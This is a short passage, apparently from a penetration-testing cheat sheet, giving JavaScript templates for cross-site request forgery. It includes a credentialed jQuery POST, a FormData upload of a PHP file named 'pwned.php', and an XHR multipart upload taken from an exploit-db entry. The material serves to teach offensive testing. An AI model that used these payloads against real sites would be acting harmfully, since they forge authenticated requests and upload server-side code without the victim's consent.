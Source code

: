 ```html
</script>

<script>
  //JQuery version
  $.ajax({
    type: "POST",
    url: "https://google.com",
    data: "param=value&param2=value2",
  })
</script>
```

### multipart/form-data POST request

```javascript
myFormData = new FormData()
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text" })
myFormData.append("newAttachment", blob, "pwned.php")
fetch("http://example/some/path", {
  method: "post",
  body: myFormData,
  credentials: "include",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  mode: "no-cors",
})
```

### multipart/form-data POST request v2

```javascript
// https://www.exploit-db.com/exploits/20009
var fileSize = fileData.length,
  boundary = "OWNEDBYOFFSEC",
  xhr = new XMLHttpRequest()
xhr.withCredentials = true
xhr.open("POST", url, true)
//  MIME POST request.
xhr.setRequestHeader(
  "Content-Type",
  "multipart/form-data, boundary=" + boundary
)
xhr.setRequestHeader("Content-Length", fileSize)
var body = "--" + boundary + "\r\n"
body +=
  'Content-Disposition: form-data; name="' +
  nameVar +
  '"; filename="' +
  fileName +
  '"\r\n'
body += "Content-Type: " + ctype + "\r\n\r\n"
body += fileData + "\r\n"
body += "--" + boundary + "--"

//xhr.send(body);
xhr.sendAsBinary(body)
```

